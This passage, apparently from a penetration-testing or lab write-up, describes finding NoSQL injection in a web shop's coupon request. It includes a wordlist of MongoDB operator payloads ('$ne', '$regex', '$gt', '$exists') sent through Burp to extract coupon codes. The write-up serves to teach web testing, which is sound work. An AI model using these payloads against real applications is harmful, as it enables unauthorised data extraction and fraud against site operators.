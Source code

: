 Only potential vulnerable requests were chosen. Injection that caught my attention was `"coupon":{"gt":""}`.

I've sent the request to Burp and this is the wordlist that i've used.

```
"coupon_code[$ne]":1
"coupon_code[$regex]":"^adm"
"coupon_code[$regex]":".{25}"
"coupon_code[$eq]":"admin"
"coupon_code[$ne]":"admin"
"coupon_code[$nin][admin]":"admin"
"coupon_code[$regex]":".*"
"coupon_code[$exists]":true
"coupon_code": {"$ne": null} 
"coupon_code": {"$ne": "foo"} 
"coupon_code": {"$gt": undefined}
"coupon_code": {"$gt":""}
```

We can see that we get coupon in response:

![picture 17](/assets/images/3270a127cbc98c90c66c2654b01234863de3bf910542b9db17f2180b728fb66e.png)  

We can even get a better one:

![picture 18](/assets/images/480a996240b7e9c8e0738c81d4d62de3d3fdc452676d2f4bd2f0eda22ce9902f.png)  